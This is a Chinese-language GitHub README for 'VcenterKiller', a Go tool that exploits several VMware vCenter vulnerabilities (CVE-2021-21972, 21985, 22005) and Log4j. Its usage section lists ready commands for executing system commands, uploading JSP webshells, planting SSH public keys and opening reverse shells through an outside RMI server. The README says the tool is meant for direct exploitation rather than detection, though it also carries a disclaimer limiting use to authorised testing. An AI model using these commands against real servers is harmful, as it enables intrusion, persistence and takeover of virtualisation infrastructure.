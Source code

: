 
![vckiller](https://socialify.git.ci/Schira4396/VcenterKiller/image?description=1&descriptionEditable=%E4%B8%80%E6%AC%BE%E9%92%88%E5%AF%B9Vcenter%E7%9A%84%E7%BB%BC%E5%90%88%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7&font=Inter&forks=1&issues=1&language=1&name=1&owner=1&pattern=Plus&stargazers=1&theme=Light)

# VcenterKiller
#### 0.必读
目前本工具处于刚上线阶段，可能会有很多BUG，如果遇到bug请提issue



目前集成了对Vcenter log4j漏洞的检测和利用功能，思路来自于带哥[@j5s](https://github.com/j5s)的项目[SuperFastjsonScan](https://github.com/j5s/SuperFastjsonScan)，原理参考[Golang实现RMI协议自动化检测Fastjson](https://www.anquanke.com/post/id/249402)，简单来说就是不借助dnslog之类的平台，只要你和目标主机是通的并且你的主机/跳板没有被防火墙做端口限制，那就能直接验证目标是否远程调用了你的rmi服务。



后续会集成基于CVE-2021-21985一键添加管理员用户的功能，这样就不必非要先拿shell，再通过python在服务器执行ldap_adduer脚本了，总之有更好的方式。



后续



Vmware workstation One Access ...

VMware vRealize Operations Manager ...
#### 1.它是什么

一款针对Vcenter（暂时）的综合**验证**工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-2205，提供一键上传webshell，命令执行或者上传公钥并使用SSH连接的功能，以及针对Apache Log4j CVE-2021-44228漏洞在Vcenter上的检测和验证。

#### 2.它的定位

一般Vcenter都放在内网，并且漏洞特征也都是烂大街，像什么fscan啦一扫就出来了，那么VcenterKiller就不是用来检测目标是否存在漏洞的，而是直接尝试利用，一般通过CS/MSF在跳板上来执行，所以去掉了其余花里胡哨的输出。

为什么用GO，因为Python写起来方便但是用起来很蛋疼，各种依赖库，编译吧体积太大，C#没法跨平台，写到一半扔了。

#### 3.使用方法

```bash
go build -o main.exe

./main.exe -u https://192.168.1.1 -m 21985 -c whoami
./main.exe -u https://192.168.1.1 -m 22005 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f id_rsa.pub -t ssh //传公钥
./main.exe -u https://192.168.1.1 -m 21985 -t rshell -r rmi://xx.xx.xx.xx:1099/xx
./main.exe -u https://192.168.1.1 -m log4center -t scan // scan log4j
./main.exe -u https://192.168.1.1 -m log4center -t rshell -r rmi://xx.xx.xx.xx:1099/xx //get reverseshell
```

#### 4.免责声明

本工具仅面向**合法授权**的企业安全建设行为，例如企业内部攻防演练、漏洞验证和复测，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标使用。**

如您在使用本工具的过程中存在任何非法行为，**您需自行承担相应后果**，我们将不承担任何法律及连带责任。

#### 5.更新日志

```bash
V1.0 上线
V1.1 针对CVE-2021-21985添加了利用rmi反弹shell的功能，前提是你要启动一个rmi服务器，例如jndi-injection-exploit
V1.2 增加了针对Vcenter的log4j检测和验证能力
...
```

